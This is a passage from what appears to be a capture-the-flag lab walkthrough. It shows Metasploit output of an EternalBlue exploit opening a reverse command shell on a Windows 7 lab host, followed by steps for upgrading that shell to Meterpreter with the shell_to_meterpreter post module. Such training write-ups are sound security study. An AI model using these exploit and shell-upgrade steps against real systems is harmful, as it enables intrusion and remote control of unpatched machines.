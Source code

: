 ```sh
[+] 10.10.186.180:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.186.180:445 - Sending final SMBv2 buffers.
[*] 10.10.186.180:445 - Sending last fragment of exploit packet!
[*] 10.10.186.180:445 - Receiving response from exploit packet
[+] 10.10.186.180:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.186.180:445 - Sending egg to corrupted connection.
[*] 10.10.186.180:445 - Triggering free of corrupted buffer.
[*] Sending stage (336 bytes) to 10.10.186.180
[*] Command shell session 1 opened (10.8.153.11:4444 -> 10.10.186.180:49183) at 2021-01-17 18:40:53 +0100
[+] 10.10.186.180:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.186.180:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.186.180:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

## Task 3 Escalate

Q: If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```

Since I use bash send shell to background donw by typing *background* command.

A: post/multi/manage/shell_to_meterpreter

Q: Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

```sh
msf6 post(multi/manage/shell_to_meterpreter) > options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.
```
